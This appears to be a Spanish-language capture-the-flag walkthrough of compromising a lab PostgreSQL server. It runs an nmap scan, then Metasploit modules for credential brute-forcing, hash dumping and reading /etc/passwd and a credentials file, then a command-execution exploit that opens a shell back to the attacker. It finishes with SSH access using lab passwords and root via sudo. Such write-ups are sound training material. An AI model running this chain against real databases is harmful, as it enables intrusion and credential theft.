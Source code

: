 
Empezamos con un reconocimiento básico de la red con [[NMAP]]
`nmap -p- --open -sSCV  --min-rate 5000 -n -Pn 10.10.253.20 -oN ScanPorts.txt`

Encontramos abiertos los puertos `22 SHH`, `80 HTTP`, `5432 PostgreSQL`.
Usamos [[METASPLOIT]] para buscar un modulo auxiliar que nos ayude con la enumeración de usuarios y credenciales.
`search PostgreSQL `

Usaremos el modulo que hemos encontrado con
`use auxiliary/scanner/postgres/postgres_login` 

Vemos las opciones de configuración y añadimos los datos necesarios.
`set RHOSTS <IP_Victima>`

 Una vez configurado lo ejecutamos con el comando `run`
 Nos encuentra un usuario y una contraseña `postgres:password`
 
Ahora buscaremos un modulo auxiliar que nos permita ver la versión exacta del servicio con esas credenciales
Usaremos el siguiente modulo con el comando.
`use auxiliary/admin/postgres/postgres_sql`

Configuramos los datos que nos solicite.
`set PASSWORD <Password_encontrada>`
`set RHOST <IP_Victima>`
`set USERNAME <Username_Encontrado>`

Ejecutamos con el comando `run`, y se nos muestra la versión exacta del servicio `9.5.21`

Ahora para hacer un volcado de los hashes de los usuarios utilizaremos el siguiente modulo auxiliar.
`use auxiliary/scanner/postgres/postgres_hashdump`

Configuramos las opciones necesarias.
`set RHOSTS <IP_Victima>`
`set PASSWORD <Password_Encontrada>`
`set USERNAME <Username_Encontrado>`

Ahora para leer los ficheros usaremos el modulo auxiliar.
`use auxiliary/admin/postgres/postgres_readfile`

Configuramos lo que sea necesario.
`set RHOSTS <IP_Victima>`
`set PASSWORD <Password_Encontrada>`
`set USERNAME <Username_Encontrado>`

Al inicio del archivo `/etc/passwd` que nos muestra este modulo encontramos que hay una credenciales en un archivo `.txt` en la ruta de `/home/dark/credentials.txt` para consultar que se encuentra dentro de este archivo deberemos de leerlo.
Para leerlo deberemos de configurar de nuevo el `RFILE` para que apunte a esa ruta y poder leer el archivo.
`ser RFILE <Ruta_aapunta>`

En el encontramos las credenciales del usuario `dark:qwerty1234#!hackme`

Ahora usaremos el exploit para poder ejecutar comandos dentro de la base de datos, todo lo que hemos hecho anteriormente era la fase de reconocimiento.
`use exploit/multi/postgres/postgres_copy_from_program_cmd_exec`

Configuramos lo que sea necesario.
`set RHOSTS <IP_Victima>`
`set PASSWORD <Password_Encontrada>`
`set USERNAME <Username_Encontrado>`
`set LHOST <IP_Atacante>`

Ejecutamos el exploit con el comando `run`.
Y obtendremos una shell, pero ya no nos hace falta por que nos podemos conectar por `ssh` ya que conocemos el nombre de usuario `dark` y su contraseña `qwerty1234#!hackme`.

Una vez hayamos accedido con este usuario, podemos ver la configuración de la base de datos en `/var/www/html` si leemos el archivo `config.php` tendremos las credenciales del usuario `alison` y al tener permisos de root podemos acceder a ser root usando `sudo su`.

